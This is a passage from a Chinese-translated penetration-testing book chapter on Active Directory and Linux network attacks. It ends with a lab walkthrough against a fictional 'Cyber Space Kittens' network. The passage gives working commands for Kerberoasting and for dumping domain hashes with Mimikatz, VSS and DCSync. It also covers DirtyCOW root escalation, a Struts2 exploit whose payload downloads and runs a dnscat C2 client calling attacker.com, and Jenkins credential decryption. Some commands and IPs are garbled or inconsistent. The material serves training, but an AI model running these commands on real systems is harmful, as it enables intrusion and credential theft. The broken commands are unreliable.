与之前所做的类似，我们可以列出所有 SPN 服务。这些是我们即将提取所有 Kerberos 票证的服务账户：

* `setspn -T cyberspacekittens.local -F -Q */*`

我们可以针对单个用户 SPN，或者将所有用户 Kerberos 票证提取到我们的用户内存中：

* 针对单个用户：
  * `powershell Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/CSK-GITHUB.cyberspacekittens.local"`
* 将所有用户票证提取到内存中
  * `powershell Add-Type -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}`
* 当然，你也可以使用 PowerSploit 做到这一点：
  * `https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/`


如果成功，我们将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。现在我们需要一种方法来提取这些票证。为此，我们可以使用经典的 Mimikatz Kerberos 导出功能：

* `powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command '"""kerberos::list /export"""'`


一旦我们导出了票证，它们将驻留在受害者计算机上。在开始破解之前，我们必须从他们的系统中下载这些票证。请记住，票证是使用服务账户的 NTLM 哈希值加密的。因此，如果我们能猜出该 NTLM 哈希值，我们就能读取票证，并进而知道服务账户的密码。破解账户最简单的方法是使用名为 `tgsrepcrack` 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，我们稍后会讨论）。

* 使用 Kerberoast 破解票证：
  * `cd /opt/kerberoast`
  * `python tgsrepcrack.py [password wordlist] [kirbi tickets - *.kirbi]`


在这种情况下，服务账户 `csk-github` 的密码是 “P@ssw0rd!”

当然，Empire 中有一个 PowerShell 模块可以为我们完成所有繁重的工作。该模块位于 `powershell/credentials/invoke_kerberoast` (https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)。你可以将结果输出为 John the Ripper 或 Hashcat 格式以便破解密码。我以前在非常大的环境中运行 PowerShell 脚本时遇到过一些问题，因此回退方案是使用 PowerShell 和 Mimikatz 将所有票证提取下来。


## 转储域控制器哈希值

一旦我们获得了域管理权限，从域控制器（DC）提取所有哈希值的旧方法是在域控制器上运行命令，并使用卷影副本（Shadow Volume）或原始复制技术来获取 `Ntds.dit` 文件。

### 审查卷影副本技术

由于我们确实拥有文件系统访问权限并在域控制器上可以运行命令，作为攻击者，我们希望抓取存储在 `Ntds.dit` 文件中的所有域哈希值。不幸的是，该文件一直在被读取/写入，即使是系统管理员也无法直接读取或复制该文件。幸运的是，我们可以利用 Windows 的一个称为卷影复制服务（Volume Shadow Copy Service, VSS）的功能，它将创建卷的快照副本。然后我们可以从该副本中读取 `Ntds.dit` 文件并将其从机器上提取出来。这将包括窃取 `Ntds.dit`、`System`、`SAM` 和 `Boot Key` 文件。最后，我们需要清理痕迹并删除卷副本：

* `C:\vssadmin create shadow /for=C:`

* `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\ntds\ntds.dit`
* `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM`
* `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SAM`
* `reg save HKLM\SYSTEM c:\SYS`
* `vssadmin delete shadows /for= [/oldest | /all | /shadow=]`

NinjaCopy

Ninja 是另一种工具，一旦在域控制器上运行，即可用于获取 `Ntds.dit` 文件。¹ 要运行此脚本，您必须是**管理员**。这可用于读取通常被锁定的 SYSTEM 文件（例如 `ntds.dit`）或注册表 hive。`http://bit.ly/2HpvKwj`

* `Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\windows\temp\ntds.dit"`

DCSync

现在我们已经回顾了旧的从域控制器拉取哈希的方法——这需要您在 DC 上运行系统命令并通常在该机器上放置文件——让我们转向较新的方法。最近由 Benjamin Delpy 和 Vincent Le Toux 编写的 `DCSync` 被引入，改变了从域控制器转储哈希的游戏规则。DCSync 的概念是伪装成一个**DomainController（域控制器）**来请求该域中所有用户的哈希值。**请稍作回味**。这意味着只要您有权限，就不需要在域控制器上运行任何命令，也不需要向 DC Drop any files。

要让 DCSync 工作，重要的是拥有从**DomainController（域控制器）**拉取哈希的适当权限。**通常限于域管理员、企业管理员**、[DCs 组成员](https://search.itpro.ru/search/detail/IT?ID=1384072596)，以及任何拥有“复制更改”权限设置为**允许**（即，"**Replicating Changes All/Replicating Directory Changes**）的用户。DCSync 将允许您的用户执行此类攻击。这一攻击最初在 Mimikatz 中开发完成，并可以使用以下命令运行：

* `Lsadump::dcsync /domain:[YOUR DOMAIN] /user=[Account_to_Pull_Hashes]`

甚至更好，DCSync 被整合进了诸如 [PowerShell Empire](https://github.com/PowerShellEmpire)之类的工具之中，使其变得更加简单易用。

Module for **Empire**：`powershell/credentials/mimikatz/dcsync_hashdump`


在查看 DCSync hashdump 时，我们可以看到**Active Directory（活动目录）**中所有用户的 [NTLM hashes](https://search.itpro.ru/search/detail/IT?ID=47)。此外，我们还有 `krbtgt` 的 NTLM 哈希值，这意味着我们现在（或在未来活动中）可以执行 Golden Ticket attacks。

## 通过 VPS 上的 RDP 进行横向移动

在当今世界，拥有大量的下一代杀毒软件的情况下，在计算机之间通过 WMI/PowerShell Remoting/PsExec 进行横向移动并不总是最佳选择。我们还看到一些组织记录所有 Windows 命令行提示符。为了绕过所有这些情况，有时我们需要回归基础来执行横向移动。**使用 VPS 服务器的问题在于**它只是一个外壳，没有 GUI 接口。因此，我们将路由/代理/转发我们的流量从攻击主机，通过 **VPS（虚拟专用服务器）**，到受侵害的计算机，最后横向移动到下一个受害者。幸运的是我们要用原生的工具来完成这部分功能中的大多数工作。


首先，我们需要设置一个 VPS 服务器，启用来自互联网的端口；配置**Metasploit** with PTF（渗透测试框架）以及感染初始受害者的 Meterpreter。**我们可以用 Cobalt Strike 或其他框架来完成这些工作，但在这种情况下我们将使用 Meterpreter**。

我们可以利用默认的 **SSH** 客户端使用局部端口转发`(-L)`。在这个场景中我在使用的 Mac 上操作，但是**这也可以在 Windows 或 Linux 系统上进行**。我们通过 SSH key 连接到 VPS。我们还在攻击机上配置本地端口（在此案例中为 3389 (RDP)），以将任何发送到该端口的流量转发到我们的 VPS。当通过该端口的流量被转发到我们的 VPS 时，它将该流量发送给 VPS 上的 localhost 的 3389 端口。**最后，我们需要在 VPS 上设置一个监听 **port 3389** 的端口并使用 Meterpreter's Port Forward（端口转发）功能通过受侵害的受害者主机进行 Port forward，将流量路由到受害者的系统。

1. Infect our victim with a Metricter payload.
2. SSH from our attacker machine and set up local port forward on our attacker system listen on port 3389 locally send all traffic destined for that port the VPS's localhost port 3389

* `ssh -i key.pem ubuntu@VPS IP`  
`127.0.0.1:3389:127.0.0.1:3389`


```
portfwrd add -l 3389 -p 3389 -r [Victim via RDP IP Address]
```

在我们的攻击机上，打开**Microsoft Remote Desktop Client（微软远程桌面客户端）**，将连接设置为自己的 localhost——`127.0.0.1`——并输入受害者的凭据以通过 RDP 进行连接。


```bash
portfwd add -l 389 -p 8 -r [target]
```

## Linux 上的 Pivoting（中转）

在 Linux 上进行 pivot 没有太大的变化。通常，如果您使用了类似于`dnscat2`或`Meterpreter`之类的工具，它们都支持自己的转发功能。

- `dnscat2`：
  - `listen 127.0.0.%:99<target_IP>:22`
  - `post/windows/manage/autoroute`
  - `use auxiliary/server/socks4a`

- `Meterpreter`：
  - `portfwrd add -l 38 -p 8 -r [target]`

如果您幸运地得到了一个 SSH shell，有许多方式可以绕过该系统。我们如何得到 SSH？在很多时候，一旦我们获得 LFI（Local File Inclusion - 本地文件包含）或 RCE（Remote Code Execution - 远程代码执行），我们可以尝试提权，以读取`/etc/shadow`文件（并破解密码），或者执行一些类似 Mimikatz 的操作。

正如 Windows 和`Mimikatz`一样，Linux 系统也面临同样的问题，即密码是以明文存储的。一个由`@huntergregal`撰写的工具会转储特定进程，这些进程很可能包含用户的明文密码。虽然这在目前数量有限的 Linux 系统上可行，但这些相同的概念可以广泛适用。您可以在这里看到确切被提取密码的系统来源：

- `https://github.com/huntergregal/mimipenguin`

.jpg)

```bash
portfwd add -l 389 -p 8 -r [target]
```

一旦我们在受侵害的主机上获得凭据并可以 SSH 回来，我们就可以隧道传输我们的流量并在盒子之间进行 pivot（中转）。在 SSH 中，我们有一些很棒的功能允许我们执行此 pivoting：

- **Setting up Dynamic Sock Proxy**（设置动态 SOCK 代理），以便使用`proxychains`访问单个端口：

```bash
ssh <user>@<target> -L
```

- **VPN over SSH**（通过 SSH 的 VPN）：这是一个很棒的功能，使隧道第三层网络流量成为可能。

  - `http://bit.ly/2Eppfb`

## 提权（Privilege Escalation）

Linux 特权升级就像 Windows 大部分情况一样。我们寻找可写入的漏洞服务、sticky bit（粘滞位）错误配置、平铺文件中的密码、世界可写文件、Cronjob（`cronjob`）以及补丁问题。

In terms of effectively and efficiently parsing a Linux box for privilege escalation issues，我们可以使用一些工具为我们完成所有工作（做所有的脏活）。在进行任何类型的特权升级 exploits 之前，我喜欢先用`LinEnum`好好读取 Linux 主机并识别系统的所有信息。包括用户、服务、`Cronjobs`、软件版本、弱凭证、错误配置的文件权限以及 Docker 信息。

![images0139jpeg: images/042.jpeg]

这是一份关于底层系统相关知识的详尽报告，对于未来的行动（campaigns）而言非常有用。

在获取有关该系统的相关信息后，我们试图寻找是否可利用其中的任何漏洞。如果我们无法找到 sticky bit 漏洞或在服务/cronjobs 中滥用错误配置，那么我们将直接针对系统进行利用。我通常将这一类操作放在最后进行，因为始终存在导致系统中断/变砖（halt/brick the box）的潜在风险。

我们可以运行名为`linux-exploit-suggester`（`https://github.com/mzet-/linux-exploit-suggester`）的工具来分析主机系统并识别缺失补丁和漏洞。一旦识别出某种漏洞，该工具还会为您提供 POC（概念验证）利用程序的链接。


现在，我们需要寻找什么来进行利用？这取决于经验和实践能力。在我的实验环境中，我配置了大量不同版本的 Linux，以验证这些利用程序不会导致底层系统崩溃。在这个场景下，我最喜欢的漏洞之一就是`DirtyCOW`（肮脏的奶牛）。

`DirtyCOW`是指“在 Linux 内核内存子系统处理写访问时打破只读私有映射 COW（Copy-On-Write）情况的方法中发现了竞态条件。一个无特权的本地用户可以利用此缺陷获取对原本为只读的内存映射的写入权限，从而提升其在系统上的特权。”（`https://dirtycow.ninja/`）

简而言之，这种漏洞允许攻击者通过内核漏洞从非特权用户提升至 root。这是我们梦寐以求的最佳类型的提权方式！不过有一个问题，即该漏洞已知会导致内核恐慌（kernel panic），因此我们必须确保在正确的 Linux 内核上使用相应的版本。

### 在 Ubuntu 上测试 DirtyCOW

Ubuntu 14.04.1 LTS（3.13.0-32-generic x86_64）：

- 下载`DirtyCOW`负载：

```bash
wget http://bit.ly/2vdh2Ub -O dirtycow-mem.c
```

- 编译`DirtyCOW`负载：

```bash
gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
```

- 运行`DirtyCOW`以获取系统权限：

```bash
./dirtycow-mem
```

- 关闭周期性写入回写以使利用程序稳定：

```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

- 尝试读取 shadow 文件（影子密码文件）：

```bash
cat /etc/shadow
```

## Linux 横向移动实验室（Lateral Movement Lab）

纵向/水平移动的问题在于，如果没有搭建好可以进行迂回攻击（pivot）的环境，就很难进行练习。因此，我们为您提供`CSK Secure Network Lab`。在这个实验中，您将在不同的机器之间进行迂回操作，使用最新的利用工具和提权攻击，并在 Linux 环境中就地执行攻击活动（live off the land）。

### 搭建虚拟环境

这个虚拟环境实验的设置略显复杂。这是因为网络需要运行三台配置为静态 IP 的虚拟机，而且您需要预先完成某些设置工作。所有这些内容都在`VMWare Workstation`和`VirtualBox`中进行过测试，并兼容于`VMware Fusion`（注意：如果在 VirtualBox 上可能需要自行调整）。

下载这三台虚拟机：

- `http://thehackerplaybook.com/get.php?type=csk-lab`

虽然您通常不需要这些机器的 root 账户，但以防万一，这里提供用户名和密码：`hacker/changeme`。

所有三台虚拟机的配置均使用 NAT 网络接口。为了使该实验正常工作，您必须在 VMWare 中配置虚拟机的 NAT 设置以使用`172.16.250.0/24`网络。在 Windows 的**VMware Workstation**中进行此操作：

- 在主菜单栏中，选择 Edit（编辑）-> virtual network editor（虚拟化网络编辑器）-> change settings（更改设置）。
- 选中类型为 NAT 的接口（您的可能是 VMnet8）。
- 将子网 IP 改为`172.16.250.0`并点击应用。

在 OS X（macOS）上则更为复杂，您需要：

- 复制原始的`dhcpd.conf`文件作为备份：

```bash
sudo cp /Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf /Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf.bakup
```

- 编辑`dhcpd.conf`文件，将其网络配置从`192.168.x.x`改为使用`172.16.250.x`：

```bash
sudo vi /Library/Preferences/VMware\ Fusion/vmnet8/dhcpd.conf
```

- 编辑`nat.conf`以使用正确的网关地址：

```bash
sudo vi /Library/Preferences/VMware\ Fusion/vmnet8/nat.conf
```

NAT 网关地址设置：

```text
ip = 172.16.250.2
netmask = 255.255.255.0
```

- 重启服务：

```bash
sudo /Applications/VMware\ Fusion.app/Contents/Library/services/services.sh --stop
sudo /Applications/VMware\ Fusion.app/Contents/Library/services/services.sh --start
```

现在，您应该能够以 NAT 模式启动您的 THP Kali VM，并在`172.16.250.0/24`范围内获取 DHCP IP。如果成功获得该 IP，请同时启动所有三个实验室服务器并开始进行渗透攻击。

### 攻击 CSK 安全网络（CSK Secure Network）

您终于通过迂回攻击离开了 Windows 环境，进入了受保护的生产网络。根据之前的 Reconnaissance（侦察）和研究报告显示，所有的秘密都存储在此处。这是他们的防护最严密的网络之一，我们了解到他们对该安全架构进行了分割部署。根据其文档，似乎存在多个待攻陷的 VLAN（虚拟局域网），看来您不得不迂回操作以进入保险库数据库（vault database）。这正是您所接受的所有训练的成果……

在从外部向受保护的网络区域进行迂回时，你会发现该环境配置的网络范围位于`172.16.250.0/24`网段内。由于您对这一网络了解不多，您首先需要运行一些非常轻量级的 nmap 扫描。您需要识别哪些系统可以从该网络外部访问，以便确定如何开始您的攻击。

扫描受保护的网络：

```bash
nmap 172.16.50.0/24
```

注：原文此处 IP 可能应为实验环境定义的网段，翻译时保留原文格式。

您注意到有三台服务器正在运行，但其中只有一台开启了 Web 端口。看起来另外两台服务器是从该安全网络外部隔离的，这意味着我们必须先攻陷`172.16.250.10`号机器，然后才能迂回进入其他两台服务器。访问第一台机器（`172.16.250.10`）后，您发现 Apache Tomcat 正在监听 8080 端口，而 openCMS 在 80 端口运行。使用 Web Fuzzer（Web 模糊测试器）进行扫描时，您注意到 openCMS 页面同时也在运行`Apache Struts2`（`/struts2-showcase`）。刹那间，Equifax（Equifax 数据泄露事件）的闪回如同一块砖头重重地砸向您脑海。您心想这看起来好得不真实，但无论如何必须进行核实。您在`msfconsole`上快速搜索并测试了漏洞利用程序`struts2_content_type_ognl`。


我们知道 CSK（公司名称缩写）严密监控其受保护的网络流量，且其内部服务器可能不允许直接访问企业网络。为了绕过这一限制，我们需要使用带有`dnscat2`的 DNS C2（命令与控制）负载通过 UDP 而不是 TCP 进行通信。当然在现实世界中，我们可能会使用权威域名服务器（Authoritative DNS server），但在本实验环境下，我们将自身充当 DNS 服务器。

#### THP Kali Machine

THP Kali 自定义虚拟机应该具备执行这些攻击所需的所有工具。

- 我们需要将负载托管在某台 Web 服务器上，以便我们可以让 Metasploit 的载荷获取`dnscat2`恶意软件。在`dnscat2`客户端文件夹中包含的是 dnscat 二进制文件：

```bash
cd /opt/dnscat2/client/
python -m SimpleHTTPServer 80
```

- 启动一个 dnscat 服务器：

```bash
cd /opt/dnscat2/server/
ruby ./dnscat2.rb
```

- 记录您的 DNScat 密钥。


- 打开新终端并加载 Metasploit：

```bash
msfconsole
search struts2
use exploit/multi/http/struts2_content_type_ognl
set RHOST 172.16.250.10
set RPORT 80
set TARGETURI struts2-showcase/showcase.action
set PAYLOAD cmd/unix/generic
```

### 命令执行示例

- `set CMD wget http://<your_ip>/dnscat -O /tmp/dnscat && chmod +x /tmp/dnscat && /tmp/dnscat --dns server=attacker.com,port=53 --secret=<Your Secret Key>`

- `run`

一旦载荷执行，您将在 Metasploit 中不会收到任何确认信息，因为我们使用了 dnscat 载荷。您需要使用 DNS 流量检查您的 dnscat 服务器以进行连接：

``

回到您的 DNSEAT2 服务器，检查新执行的载荷并创建 shell 终端：

- 与您的第一个载荷交互：

  - `window -i 1`

- 生成一个 Shell 进程：

  - `shell`

- 通过键盘按钮返回主菜单：

  - `ctrl + z`

- 与您新的 shell 交互：

  - `window -i 2`

- 输入 Shell 命令：

  - `ls`

您已入侵 OpenCMS/Apache Struts 服务器！现在怎么办？您花些时间审查服务器并寻找诱人的秘密。您记得该服务器正在运行 OpenCMS Web 应用程序，并识别出该应用程序配置在`/opt/tomcat/webapps/kittens`下。在审查 OpenCMS 属性配置文件时，我们发现数据库、用户名、密码和 IP 地址`172.16.250.10`。

### 检索数据库信息

```bash
cat /opt/tomcat/webapps/kittens/WEB-INF/config/opencms.properties
```

我们连接到数据库，但并未看到多少。问题是我们目前是一个有限的 tomcat 用户，这真的阻碍了我们的攻击。因此，我们需要找到一种方法来提升权限。在服务器上运行后续侦察（`uname -a && lsb_release -a`）后，您识别出这是一个相当旧的 Ubuntu 版本。幸运的是，该服务器存在 DirtyCOW 特权提升漏洞。让我们创建一个 DirtyCOW 二进制文件并获取 root！

### 通过 dnscat 进行特权提升

下载并编译 DirtyCOW：

1. `cd /tmp`


2. `wget http://bit.ly/2vdh2Ub -O dirtycow-mem.c`

3. `gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread`

4. `./dirtycow-mem`

尝试让 DirtyCOW 漏洞保持稳定，并允许在内核恐慌时进行重启：

1. `echo 0 > /proc/sys/vm/dirty_writeback_centisecs`

2. `echo 1 > /proc/sys/kernel/panic && echo 1 > /proc/sys/kernel/panic_on_oops && echo 1 > /proc/sys/kernel/panic_on_unrecovered_nmi && echo 1 > /proc/sys/kernel/panic_on_io_nmi && echo 1 > /proc/sys/kernel/panic_on_warn`

3. `whoami`

注意：DirtyCOW 并不是一种很稳定的特权提升方法。如果您遇到问题，请查看我的 GitHub 页面，此处提供了一个创建 setuid 二进制文件的过程：`https://raw.githubusercontent.com/cheetz/dirtycow/master/THP-Lab`

如果您仍然遇到问题，另一种选项是通过 SSH 登录到初始服务器并以 root 身份执行 dnscat 载荷。要登录，使用凭据 `hacker/changeme` 和命令 `sudo su -` 获取 root。

现在，您已在系统中成为 root，原因是主机系统未打补丁。当您开始再次从箱子里搜刮秘密时，您遇到 root 的 bash 历史文件。在这个文件中，您发现了一个 SSH 命令和私有 SSH 密钥引用。我们可以利用这个 SSH 密钥登录到我们的第二台机器 `172.16.250.30`：

- `cat ~/.bash_history`
- `head ~/.ssh/id_rsa`
- `ssh -i ~/.ssh/id_rsa root@172.16.250.30`

您在第二台机器上花费了一些时间，并试图了解它的用途。四处搜索时，您注意到 `/home` 目录中有一个 Jenkins 用户，这使您能够识别在 8080 端口上运行的 Jenkins 服务。我们如何利用浏览器查看 Jenkins 服务器上有什么？这就是 dnscat 的端口转发功能发挥作用的时候。我们需要从当前的 shell 退出，转到命令行终端。在那里，我们需要设置监听器以将我们的流量从攻击机通过 dnscat 转发到 Jenkins 盒子（`172.16.250.30`）的 8080 端口。

### 执行 dnscat 端口转发

- 从当前的 shell 退出：`Ctrl + z`
- 回到第一个命令代理并设置监听器/端口转发：
  - `window -i 1`
  - `listen 127.0.0.1:8080 172.16.250.30:8080`
- 在您的 THP Kali VM 上，进入浏览器并使用我们的端口转发（通过 DNS 会非常慢）：`http://127.0.0.1:8080/jenkins`

在 Jenkins 应用程序内的凭据管理器中，我们可以看到 db_backup 用户密码被存储，但不可见。我们需要找出一种从 Jenkins 获取此凭据的方法，以便我们可以继续进行横向移动。

n00py 对 Jenkins 内部存储的凭据及其提取方法做了一些出色的研究（`http://bit.ly/2GUIN9s`）。我们可以利用现有的 shell 并利用此攻击来获取 `credentials.xml`、`master.key` 和 `hudson.util.Secret` 文件。

回到 dnscat 的主菜单并与您的原始 shell 交互：

- `Ctrl + z`
- `window -i 2`

进入 Jenkins 的主目录并获取这三个文件：`credentials.xml`、`master.key` 和 `hudson.util.Secret`。

1. `cd /home/Jenkins`

我们可以尝试离线下载这些文件，或者我们可以对这些文件进行 base64 编码并通过当前 shell 复制它们。

- `base64 credentials.xml`
- `base64 secrets/hudson.util.Secret`
- `base64 secrets/master.key`

我们可以将 base64 输出复制回我们的 Kali 盒子并对其进行解码，以解密 db_backup 用户的密码：

1. `cd /opt/jenkins-decrypt`
2. `echo "<base64 hudson.util.Secret>" | base64 --decode > hudson.util.Secret`
3. `echo "<base64 master.key>" | base64 --decode > master.key`
4. `echo "<base64 credentials.xml>" | base64 --decode > credentials.xml`

使用 `https://github.com/cheetz/jenkins-decrypt` 解密密码：`python3 ./decrypt.py master.key hudson.util.Secret credentials.xml`

我们成功解密了 db_backup 用户的密码为 `)uDvra{4UL^;r?*h`。如果我们回顾之前的笔记，我们在 OpenCMS 属性文件中看到数据库服务器位于 `172.16.250.50`。看起来由于某种原因，此 Jenkins 服务器会对数据库服务器执行某种备份。让我们检查是否可以获取 db_backup `)uDvra{4UL^;r?*h` 的凭据并通过 SSH 登录数据库服务器。唯一的问题是，通过我们的 dnscat shell，我们没有直接的 STDIN 来与 SSH 的密码提示交互。因此，我们将再次使用端口转发，将我们的 SSH shell 从我们的 THP Kali VM 通过 dnscat 代理传递到数据库服务器（`172.16.250.50`）。

- 回到命令 shell：`Ctrl + z`
  - `window -i 1`
  - `listen 127.0.0.1:2222 172.16.250.50:22`

在数据库服务器（`172.16.250.50`）上的 db_backup 账户上，我们注意到该账户是 sudoers 文件的一部分，并可以 `sudo su` 到 root。一旦成为 root，我们在数据库服务器上四处搜索，但找不到任何访问数据库的凭据。我们可以重置 root DB 密码，但这可能会破坏其他应用程序。相反，我们搜索 `/var/lib/mysql` 下的不同数据库，并遇到 `cyberspacekittens` 数据库。在这里，我们找到 `secrets.ibd` 文件，该文件包含 secrets 表的所有数据。当我们读取数据时，我们意识到它可能被加密了……剩下的由您来决定。

恭喜！！！您已成功入侵网络 Cyber Space Kittens！

不要停止思考……利用这些盒子可以做许多事情，我们只是触及了表面。您可以自由地在此系统上进行各种操作，寻找更敏感的文件夹，探索其他权限提升途径等。作为参考，在本实验室中，环境拓扑图如下所示：


## 结论

在本章中，我们探讨了**攻击网络**。我们从没有凭据的网络或通过社会工程学（Social Engineering）找到第一个受害盒子开始。从那里，我们能够在本地进行活动（Live off the land），获取网络/系统信息，在盒子之间切换，提升权限，并最终攻破整个网络。这一切都是通过最小化扫描，利用网络特性，并试图规避所有检测来源来实现的。
